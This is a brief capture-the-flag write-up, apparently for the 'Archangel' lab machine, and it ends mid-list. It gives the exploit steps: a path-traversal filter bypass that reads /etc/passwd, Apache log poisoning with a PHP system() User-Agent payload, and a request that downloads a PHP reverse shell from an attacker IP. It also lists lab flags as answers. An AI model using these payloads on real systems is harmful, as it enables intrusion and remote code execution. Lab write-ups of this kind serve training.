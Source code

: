 # Archangel

```
export IP=10.10.245.141
```

# Material needed

1. Find the hostname: mafialive.thm

2. Interesting directory: /test.php

3. LFI protection

```
if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing'))
```

4. Bypass LFI 

```
curl http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/..//..//..//../etc/passwd
```

5. Apache log poisoning

```
GET /test.php?view=/var/www/html/development_testing/..//..//../log/apache2/access.log&cmd=wget http://10.8.193.113:8000/php-reverse-shell.php

User-Agent: <?php system($_GET['cmd']);?>
```

# Tasks

1. Find a different hostname? mafialive.thm

2. Find flag 1 

```
thm{f0und_th3_r1ght_h0st_n4m3}
```

3. Look for a page under development: /test.php

4. Find flag 2

```
thm{explo1t1ng_lf1}
```

5. 